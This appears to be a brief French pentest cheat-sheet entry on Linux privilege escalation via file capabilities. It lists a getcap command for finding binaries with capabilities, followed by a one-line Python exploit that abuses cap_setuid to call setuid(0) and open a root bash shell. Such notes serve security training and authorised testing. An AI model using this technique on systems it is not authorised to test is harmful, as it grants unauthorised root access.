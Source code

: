# Capabilities

```sh
getcap -r / 2>/dev/null
```

Répertorier les fonctionnalités activées.

Noter que si le binaire possède les fonctionnalités linux `cap_setuid+ep` alors il peut etre exploiter

**Exemple d'exploitation:**

```sh
dipeua@ubuntu:/tmp$ /usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

